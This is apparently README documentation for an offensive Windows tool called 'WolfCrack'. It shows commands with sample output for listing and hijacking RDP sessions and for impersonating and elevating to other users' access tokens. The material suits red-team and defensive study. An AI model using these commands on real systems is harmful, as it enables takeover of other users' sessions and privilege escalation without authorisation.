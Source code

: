 ## ts
This module is for manipulating rdp sessions.  
##### Features:
1) listing sessions  
2) rdp session hijacking.

### sessions
This command will show you all the available sessions on your server.
```
WolfCrack # ts::sessions

User: WEBER\Administrator
Session Name: RDP-Tcp#8
Session Id: 2

User: WEBER\ansible
Session Name: Console
Session Id: 1
```
As you can see we have 2 sessions, one is connected via rdp (Administrator) and the other one is connected via console (ansible)

### remote
this command will let you hijack the rdp sessions you can see in the listing above.  
it will get the session id of the remote session that you want to transfer to.
##### Arguments:
1) id (session of remote id) \[**required**\]
```
WolfCrack # ts::remote /id:1
```
**If the command succeeeded you will be transfered to the remote session.**

## token
this module is for manipulating token related stuffs.  
##### Features:
1) show your current token information.  
2) list all available tokens on the computer.  
3) elevating your token to a specific token you choose.  
4) reverting your token to your original one.  
5) running cmd as your elevated token.

### whoami
this command will show you your current token info.
```
WolfCrack # token::whoami

UserName: WEBER\Administrator
Sid: S-1-5-21-2285584810-4222754310-1381224282-500
```
**If you have impersonation token it will show it also in the info above**
